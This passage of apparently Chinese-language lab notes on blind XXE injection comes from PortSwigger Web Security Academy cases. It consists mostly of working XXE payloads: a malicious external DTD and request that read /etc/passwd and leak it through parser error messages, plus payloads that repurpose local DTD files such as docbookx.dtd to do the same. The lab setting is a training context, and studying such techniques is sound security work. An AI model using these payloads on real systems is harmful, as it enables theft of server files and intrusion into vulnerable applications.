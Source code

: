 ##### 案例6：通过错误信息返回窃取的数据

*exploit.dtd*

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///ddd/%file;'>">
%eval;
%error;
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://acab1f1a1fa6a28080702fb7010600ac.web-security-academy.net/exploit.dtd"> %xxe;]>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

#### 通过重利用本地DTD进行blind XXE

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]> 
```

##### 案例7：重利用本地DTD进行XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]> <stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

## 4.寻找用于XXE注入的隐藏攻击面
